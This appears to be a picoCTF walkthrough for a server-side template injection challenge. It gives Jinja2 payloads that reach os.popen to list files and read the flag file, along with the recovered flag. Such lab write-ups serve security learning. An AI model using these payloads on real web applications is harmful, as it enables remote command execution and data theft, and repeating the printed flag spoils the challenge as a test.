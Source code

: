 The link of the challenge: [https://play.picoctf.org/practice/challenge/66?category=1&page=1](https://play.picoctf.org/practice/challenge/492?category=1&originalEvent=74&page=1)
Go into the link.
You should see this page:
<img width="1440" alt="צילום מסך 2025-04-07 ב-15 22 42" src="https://github.com/user-attachments/assets/0369052c-2456-4619-97ef-13dc8b23394b" />
click on "launch instance" and then click on "here"
You should see this:
<img width="1440" alt="צילום מסך 2025-04-07 ב-15 24 45" src="https://github.com/user-attachments/assets/f534b511-9f67-4a8f-b22a-daa6e776a805" />
type - {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls -la').read() }} in the input box
This command lists all files and directories in the current directory. From the output, we see a file named flag.
<img width="1440" alt="צילום מסך 2025-04-07 ב-15 26 56" src="https://github.com/user-attachments/assets/fac518ca-c963-466a-b87f-7e640848fca3" />
we are looking for a file named flag or something else that might be related to it.
then return back to the menu screen and type {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
This command outputs the contents of the flag file, revealing the flag
you should see this - 
<img width="1440" alt="צילום מסך 2025-04-07 ב-15 28 53" src="https://github.com/user-attachments/assets/1dfd716d-3613-43e4-9498-1a9d54107ff3" />
and thats it we got the flag.

the flag - picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}
